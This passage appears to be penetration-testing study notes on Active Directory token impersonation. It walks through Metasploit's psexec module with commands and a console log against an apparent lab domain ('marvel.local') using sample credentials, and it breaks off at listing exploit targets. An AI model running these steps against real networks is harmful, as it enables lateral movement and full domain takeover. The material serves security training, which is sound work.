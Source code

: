 
### Risks and Impact

- **Key Threat**: If a Domain Admin token is impersonated, full domain control is achieved.
- **Critical Objective**: Search for high-privilege tokens when moving laterally.

---

## Token Impersonation: Practical Implementation

### Setup (Metasploit psexec module)

1. **Load Metasploit Framework**:
    
    ```Shell
    msfconsole
    ```
    
2. **Search and Use the PSExec Exploit**:
    
    ```Shell
    use exploit/windows/smb/psexec
    ```
    
3. **Set Exploit Options**:  
      
    Example:
    
    ```Shell
    set RHOSTS [TARGET_IP]
    set SMBDomain [DOMAIN_NAME]
    set SMBUser [USERNAME]
    set SMBPass [PASSWORD]
    ```
    
    ```Shell
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> set RHOSTS 192.168.213.130
    RHOSTS => 192.168.213.130
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> set smbdomain marvel.local
    smbdomain => marvel.local
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> set smbpass Password@01
    smbpass => Password@01
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> set smbuser fcastle
    smbuser => fcastle
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> show targets
    
    ```
    
4. **Show target**
    
    ```Bash
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> show targets
    
    Exploit targets:
    =================
    